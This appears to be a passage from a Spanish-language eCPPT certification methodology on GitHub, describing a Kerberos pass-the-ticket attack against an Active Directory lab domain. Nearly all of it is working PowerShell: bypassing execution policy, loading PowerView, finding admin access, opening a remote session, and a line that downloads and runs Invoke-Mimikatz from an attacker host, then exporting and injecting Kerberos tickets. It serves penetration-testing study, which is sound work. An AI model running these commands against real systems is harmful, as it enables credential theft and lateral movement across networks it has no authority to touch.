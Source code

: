 #### [[PASS THE TICKET]]

[](https://github.com/ant0dev/Methodology-eCPPT/blob/main/METODOLOGIA%20ATAQUE%20AD%20%26%20CERTIFICACION%20eCPPTv3.md#pass-the-ticket)

**Importar Modulo Powerview**

```powershell
# Dar permisos de bypass
powershell -ep bypass

# Importamos el modulo
. .\PowerView.ps1
```

**Comprobar los permisos de administración del usuario actual en otros dominios**

```powershell
Find-LocalAdminAccess
```

**Abrir una Powershell Session en el sistema remoto al cual tenemos acceso como Admin**

```powershell
# Abrir sesion
EnterPSSession seclogs.research.SECURITY.local

# Analizar permisos (debemos de tener todos los permisos)
whoami
whoami /priv
```

**Pasamos herramientas Mimikatz de un sistema a otro mediante un servidor de subida de archivos**

```powershell
cd \
iex (New-Object Net.WebClient).DownloadString('http://10.0.5.101/Invoke-Mimikatz.ps1')
```

**Extracción de todos los tickets de Kerberos vinculados a nuestra sesión**

```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

**Enumeramos los tickets de Kerberos**

```powershell
ls | select name
```

**Realizamos ataque PTT**

```powershell
Invoke-Mimikatz -Command ‘"kerberos::ptt [0;2c1c7]-2-0-40e10000-maintainer@krbtgt-RESEARCH.SECURITY.LOCAL.kirbi"’
```

**Mostar el ticket inyectado en la sesion**

```powershell
klist
```
